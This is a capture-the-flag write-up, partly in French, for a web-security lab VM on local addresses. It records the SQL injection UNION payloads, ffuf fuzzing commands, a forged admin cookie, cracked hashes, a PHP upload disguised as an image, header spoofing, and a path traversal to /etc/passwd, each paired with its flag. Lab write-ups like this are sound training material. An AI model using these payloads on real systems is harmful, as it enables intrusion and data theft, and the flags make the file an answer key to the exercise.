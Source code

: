 #+TITLE: Temp
*  Login page :

Recover password - webmaster@borntosec.com
~flag - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0~

La balise est cachee, si on supprime le contenu du form et qu'on submit

* Cookies :
Cookies - I_am_admin 68934a3e9455fa72420237eb05902327
hashid 68934a3e9455fa72420237eb05902327
Le hash est en md5 et veut dire false
Remplacons le cookie par true
echo -n true | md5
~flag - df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3~

* Search image :

ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=searchimg&id=FUZZ&Submit=Submit#" -fs 2410
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT title,comment FROM list_images
echo 'albatroz' | sha2
~flag - fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6~

* Search users :
for ((i=0;i<1000;i++)) ; do echo $i >> payload.txt; done
ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=member&id=FUZZ&Submit=Submit#" -fs 2462
1 OR 1
5 UNION SELECT database(),2
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT user_id,planet FROM users
5 UNION SELECT user_id,countersign FROM users
5 UNION SELECT user_id,commentaire FROM users
echo 'fortytwo' | sha2
~flag - 3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5~

* Login :
5 UNION SELECT username,password FROM Member_Brute_Force.db_default
admin - shadow
~flag - b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2~

* Fuzzing :
ffuf -w common.txt:FUZZ -u http://192.168.56.105:80/FUZZ -fs 6892
url/whatever - htpasswd http://192.168.56.102/whatever/htpasswdd
root:8621ffdbc5698829397d97767ac13db3 - dragon
go to url/admin
~flag - d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff~

url/robots.txt
url/.hidden

* Member survey :

modifier les parametres post dans le browser en mettant 42
~flag - 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa~

* Feedback :
~flag - 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e~

* Hidden directory :
crawl le directory avec crawl.sh
grep -v "gauche\|droite\|dessus\|dessous\|aussi\|bon\|non" result.txt
~flag - 99dde1d35d1fdd283924d84e6d9f1d820~

* Upload image :
Upload un fichier .php, remplacer le content type de la requete par image/jpeg
~flag - 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8~

* Request from :
You must comming from : "https://www.nsa.gov/" to go to the next step
Changer le referrer de la requete et le user agent
~flag - f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188~

* Html-src :
http://192.168.56.105/?page=media&src=nsa
le src est remplacable par du code html
~flag - 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d~
ffuf -w ~/tmp/directory-list-2.3-medium.txt -u 'http://192.168.56.102/FUZZ'

* Redirect :
Le site prend des redirections vers des RS dans le footer, on peut y mettre n'importe quoi

~flag - b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3~

* Include Page :
http://192.168.56.105/index.php?page=../../../../../../../etc/passwd
~flag - b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0~
